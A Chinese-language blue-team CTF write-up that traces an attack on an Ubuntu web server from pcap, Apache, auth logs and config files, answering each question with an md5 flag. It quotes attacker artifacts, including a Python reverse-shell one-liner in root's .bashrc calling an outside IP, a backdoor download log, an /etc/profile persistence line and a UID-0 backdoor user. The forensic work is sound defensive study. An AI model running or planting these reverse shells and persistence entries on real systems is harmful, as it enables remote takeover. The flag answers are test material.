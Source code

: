 # 第九章 - blueteam 的小心思

## 1

> 攻击者通过什么密码成功登录了网站的后台？提交密码字符串的小写 md5 值

在根目录下发现一个流量包文件

```shell
(remote) root@ubuntu18:/etc/profile.d# find / -name "*.pcap"
/wireshark.pcap
```

下载下来解析

![img](img/image_20240404-210421.png)

在其中可以找到攻击者登录的流量

![img](img/image_20240406-210649.png)

```plaintext
Aa12345^ --> d63edb0e9df4cf411398e3658c0237e0
```

```plaintext
flag{d63edb0e9df4cf411398e3658c0237e0}
```

## 2

> 攻击者在哪个 PHP 页面中成功上传了后门文件？例如 upload.php 页面，上传字符串 "upload.php" 的小写 md5 值

鉴于涉及到上传操作，对 Apache2 日志进行筛选

```shell
(remote) root@ubuntu18:/var/log/apache2# cat /var/log/apache2/access.log | grep "POST" | grep -i "upload"
192.168.16.43 - - [18/Nov/2023:23:21:04 +0000] "POST /pluginmgr.php?op=upload HTTP/1.1" 302 39309 "http://192.168.18.24/pluginmgr.php" "Mozilla/5.0 (Macintosh; Intel Mac OS X 10_15_7) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/119.0.0.0 Safari/537.36"
```

```plaintext
flag{b05c0be368ffa72e6cb2df7e1e1b27be}
```

## 3

> 找到攻击者上传的 webshell 文件，提交该文件的小写 md5 值

将网站源码下载下来

```shell
(remote) root@ubuntu18:/root# cd /var/www/
(remote) root@ubuntu18:/var/www# zip -r www.zip ./html/
(remote) root@ubuntu18:/var/www# python3 -m http.server 8000
```

下载下来之后，使用 D 盾进行扫描

![img](img/image_20240452-195236.png)

```shell
(remote) root@ubuntu18:/var/www# md5sum /var/www/html/plugins/cpg.php
a097b773ced57bb7d51c6719fe8fe5f5  /var/www/html/plugins/cpg.php
```

```plaintext
flag{a097b773ced57bb7d51c6719fe8fe5f5}
```

## 4

> 攻击者后续又下载了一个可执行的后门程序，提交该文件的小写 md5 值

在 Apache2 的 error.log 中，可以看到攻击者下载了一个文件

```shell
[Sun Nov 19 07:17:48.734186 2023] [core:notice] [pid 1398] AH00094: Command line: '/usr/sbin/apache2'
--2023-11-18 23:21:43--  http://124.221.70.199:8889/is.world
Connecting to 124.221.70.199:8889... connected.
HTTP request sent, awaiting response... 200 OK
Length: 250 [application/octet-stream]
Saving to: 'is.world'

     0K                                                       100%  274K=0.001s

2023-11-18 23:21:43 (274 KB/s) - 'is.world' saved [250/250]
```

```shell
(remote) root@ubuntu18:/var/www/html/plugins# ls -lah
total 40K
drwxrwxrwx  9 root     root     4.0K Nov 18 23:25  .
drwxr-xr-x  2 root     root     4.0K Nov 18 23:26 '.'
drwxrwxrwx 14 root     root     4.0K Apr 21  2023  ..
-rw-r--r--  1 www-data www-data   29 Nov 18 07:39  cpg.php
drwxrwxrwx  2 www-data www-data 4.0K Nov 18 23:21  receive
drwxrwxrwx  3 root     root     4.0K Nov 18 07:17  sample
drwxrwxrwx  5 root     root     4.0K Nov 18 07:17  upload_h5a
drwxrwxrwx  3 root     root     4.0K Nov 18 07:17  upload_sgl
drwxrwxrwx  4 root     root     4.0K Nov 18 07:17  upload_swf
drwxrwxrwx  5 root     root     4.0K Nov 18 07:17  visiblehookpoints
```

发现一个可疑目录，进入查看情况

```shell
(remote) root@ubuntu18:/var/www/html/plugins# cd '.'
(remote) root@ubuntu18:/var/www/html/plugins/.       # ls -lh
total 4.0K
-rwxrwxrwx 1 www-data www-data 250 Nov 11 13:41 is.world
(remote) root@ubuntu18:/var/www/html/plugins/.       # md5sum is.world
ee279c39bf3dcb225093bdbafeb9a439  is.world
```

```plaintext
flag{ee279c39bf3dcb225093bdbafeb9a439}
```

## 5

> 攻击者创建了后门用户的名称是？例如attack恶意用户，上传字符串"attack"的小写md5值

筛选日志

```shell
(remote) root@ubuntu18:/var/log# grep -n -H -a -i "useradd" ./auth.log 
./auth.log:1:Oct  8 03:05:55 ubuntu18 useradd[1053]: new group: name=ubuntu18, GID=1000
./auth.log:2:Oct  8 03:05:55 ubuntu18 useradd[1053]: new user: name=ubuntu18, UID=1000, GID=1000, home=/home/ubuntu18, shell=/bin/bash
./auth.log:3:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'adm'
./auth.log:4:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'cdrom'
./auth.log:5:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'sudo'
./auth.log:6:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'dip'
./auth.log:7:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'plugdev'
./auth.log:8:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to group 'lxd'
./auth.log:9:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'adm'
./auth.log:10:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'cdrom'
./auth.log:11:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'sudo'
./auth.log:12:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'dip'
./auth.log:13:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'plugdev'
./auth.log:14:Oct  8 03:05:55 ubuntu18 useradd[1053]: add 'ubuntu18' to shadow group 'lxd'
./auth.log:135:Apr 18 03:23:01 ubuntu18 useradd[1632]: new user: name=mysql, UID=111, GID=116, home=/nonexistent, shell=/bin/false
./auth.log:182:Nov 18 23:24:19 ubuntu18 useradd[4196]: new user: name=knowledgegraphd, UID=0, GID=0, home=/home/knowledgegraphd, shell=/bin/bash
./auth.log:183:Nov 18 23:24:19 ubuntu18 useradd[4196]: add 'knowledgegraphd' to group 'root'
./auth.log:184:Nov 18 23:24:19 ubuntu18 useradd[4196]: add 'knowledgegraphd' to shadow group 'root'
```

```plaintext
knowledgegraphd --> 4cda3461543c9a770a3349760594facd
```

```plaintext
flag{4cda3461543c9a770a3349760594facd}
```

## 6

> 攻击者创建了一个持久化的配置项，导致任意用户登录就会触发后门的连接。提交该配置项对应配置文件的小写md5值

在脚本中看到恶意语句

```shell
(remote) root@ubuntu18:/etc/init.d# cat /etc/profile
......
/var/www/html/plugins/".       "/is.world &
......
```

```shell
65bf3e4a9ac90d75ec28be0317775618
```

## 7

> 攻击者创建了一个持久化的配置项，导致只有 root 用户登录才会触发后门的连接。提交该配置项对应配置文件的小写 md5 值

```shell
(remote) root@ubuntu18:/root# cat .bashrc | grep python
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("124.221.70.199",9919));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);' &
(remote) root@ubuntu18:/root# md5sum .bashrc
4acc9c465eeeb139c194893ec0a8bcbc  .bashrc
```

```plaintext
flag{4acc9c465eeeb139c194893ec0a8bcbc}
```

## 10

> 因为什么文件中的漏洞配置，导致了攻击者成功执行命令并提权。提交该文件的小写 md5 值

检查 /etc/sudoers 文件

```shell
root    ALL=(ALL:ALL) ALL
www-data ALL=(root) NOPASSWD: /bin/systemctl status apache2.service
```

```shell
(remote) root@ubuntu18:/root# md5sum /etc/sudoers
6585817513b0ea96707ebb0d04d6aeff  /etc/sudoers
```

```plaintext
flag{6585817513b0ea96707ebb0d04d6aeff}
```
